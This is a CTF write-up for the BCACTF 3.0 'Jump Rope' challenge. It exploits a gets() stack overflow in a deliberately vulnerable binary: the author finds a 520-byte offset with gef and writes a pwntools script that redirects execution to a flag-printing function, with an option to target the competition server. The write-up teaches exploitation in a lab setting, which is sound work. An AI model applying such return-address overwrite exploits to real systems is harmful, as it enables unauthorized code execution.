

# BCACTF 3.0: Jump Rope


## Description

Here at BCA, we take fitness very seriously. Lately, our gym teachers have been stressing jumproping as cardio... I'm not too good at it yet though, but I think you might be able to show me how it's done!

I did download the challenge files 

First lets run checksec 

```sh
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX enabled : will prevent shellcode exectusion

Running the binary




After seeing the souce code we have : 


```c
void a() {
    FILE *fptr = fopen("flag.txt", "r");
    char flag[100];
    if(fptr == NULL){
        printf("\nLooks like we've run out of jump ropes...\n");
        printf("Challenge is misconfigured. Please contact admin if you see this.\n");
    }

    fgets(flag, sizeof(flag), fptr);
    puts(flag);
}
```

This function will give us the flag if we call it, but as we can see its not called any where in the program, so our main goal is to call this function


Next we have this function :

```c
void jumprope(){
    char arr[500];
    printf("\nBetter start jumping!\n");
    gets(arr);
    printf("Woo, that was quite the workout wasn't it!\n");
}
```

We know that the dangerous part here is :

```c
 gets(arr);
```
 

We will use cyclic from gef tools to know the exact offset, as we can see in the source code the buffer size is 500 so we will use a value above that

cyclic 600 -n 8


-n 8 : cause we have a 64 bits 

```sh
$rsp   : 0x007fffffffdce8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x1               
$rdi   : 0x007ffff7f9fa70  →  0x0000000000000000
$rip   : 0x00000000401259  →  <jumprope+61> ret 
```

$rip (64-bit Instruction Pointer) as we can see here we didn't override it, well 64 bits binaries have some differences, it will not allow a malformed address to go into the stack in the first place


Lets find the offset :

```sh
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 520 (little-endian search) likely
```

in order to exploit this we need


'A' * 520  +  the address of the function where we want our instruction pointer to point to.


the address of the a() function we can get it from gdb by typing :

```sh
gef➤  disas a
Dump of assembler code for function a:
   0x00000000004011b6 <+0>:	endbr64 
   0x00000000004011ba <+4>:	push   rbp
   0x00000000004011bb <+5>:	mov    rbp,rsp
   0x00000000004011be <+8>:	sub    rsp,0x70
   0x00000000004011c2 <+12>:	lea    rsi,[rip+0xe3f]        # 0x402008
   0x00000000004011c9 <+19>:	lea    rdi,[rip+0xe3a]        # 0x40200a
   0x00000000004011d0 <+26>:	call   0x4010c0 <fopen@plt>
   0x00000000004011d5 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004011d9 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004011de <+40>:	jne    0x4011f8 <a+66>
   0x00000000004011e0 <+42>:	lea    rdi,[rip+0xe31]        # 0x402018
   0x00000000004011e7 <+49>:	call   0x401080 <puts@plt>
   0x00000000004011ec <+54>:	lea    rdi,[rip+0xe55]        # 0x402048
   0x00000000004011f3 <+61>:	call   0x401080 <puts@plt>
   0x00000000004011f8 <+66>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004011fc <+70>:	lea    rax,[rbp-0x70]
   0x0000000000401200 <+74>:	mov    esi,0x64
   0x0000000000401205 <+79>:	mov    rdi,rax
   0x0000000000401208 <+82>:	call   0x4010a0 <fgets@plt>
   0x000000000040120d <+87>:	lea    rax,[rbp-0x70]
   0x0000000000401211 <+91>:	mov    rdi,rax
   0x0000000000401214 <+94>:	call   0x401080 <puts@plt>
   0x0000000000401219 <+99>:	nop
   0x000000000040121a <+100>:	leave  
   0x000000000040121b <+101>:	ret    
End of assembler dump.
```

This is the address of a() 

```python
0x00000000004011b6 <+0>:	endbr64 
```


So the exploit will be : 


```python
import pwn
import argparse

parser = argparse.ArgumentParser()

parser.add_argument("-r", "--remote", help="perform the attack on the remote target",
                    action="store_true")
args = parser.parse_args()
if args.remote :
    p = pwn.remote('bin.bcactf.com', 49177)
else:
    p = pwn.process("./jumprope")


## cause of the endbr64 (google it ) this didnt work when i tried this localy but i it work on the remote server
#new_rip = pwn.p64(0x00000000004011b6)
 
new_rip = pwn.p64(0x00000000004011bb) # *a+5
 
offset = 520  

payload = b"".join(
    [
        b"A" * offset,
        new_rip
    ]
)
  
print(p.recvuntil('jumping!'.encode()).decode('utf-8'))

p.sendline(payload)

print(p.recv().decode('utf-8'))

p.interactive()
```


I didn't solve this challenge during the competition because of the "endbr64" but the  exploit does work on the remote server except i didn't try that only after the CTF did end 💢😤


The lesson learned from here is that you should run your exploit on the remote target even if its not working locally 🤓


